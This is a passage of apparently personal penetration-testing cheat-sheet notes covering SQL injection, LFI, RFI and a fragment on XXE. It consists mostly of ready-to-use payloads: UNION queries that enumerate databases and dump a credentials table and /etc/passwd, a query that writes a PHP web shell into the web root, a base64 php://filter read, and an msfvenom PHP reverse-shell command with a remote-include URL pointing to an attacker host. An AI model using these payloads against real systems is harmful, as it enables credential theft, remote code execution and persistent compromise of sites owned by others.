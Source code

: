    -  cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- - 	*List all databases*

   -  cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- - 	*List all tables in a specific database*

   - cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- - 	*List all columns in a specific table*

   - cn' UNION select 1, username, password, 4 from dev.credentials-- - 	*Dump data from a table in another database*

   -  cn' UNION SELECT 1, user(), 3, 4-- - 	*Find current user*

   -  cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- - 	*Find if user has admin privileges*

   -  cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- - 	*Find if all user privileges*

   - cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- - 	*Find which directories can be accessed through MySQL*
 
   -  cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- - 	*Read local file*

   - select 'file written successfully!' into outfile '/var/www/html/proof.txt' 	*Write a string to a local file*

   - cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- - 	*Write a web shell into the base web directory*



- ## LFI
 
https://gupta-bless.medium.com/exploiting-local-file-inclusion-lfi-using-php-wrapper-89904478b225



- when normal lfi doesnt return output,then we can use this and we will get our output in base64.

> http://xqi.cc/index.php?m=php://filter/convert.base64-encode/resource=index


### RFI

1. Use the following shell in rfi and host a server in the directory

we use .txt format because sometimes server executes php on our machine isntead of victim

> msfvenom -p php/meterpreter/reverse_tcp LHOST=10.4.30.255 LPORT=6969 -f raw > shell.txt

2. Now go to the url and include your webserver and file alongside it

> http://site.com?example.php=http://10.4.30.255:80/shell.txt

3. Listen on msf handler with the php/meterpreter/reverse_tcp set



## XXE

we canot use whitespaces in this attack so either we can use the $IFS command instead of a space
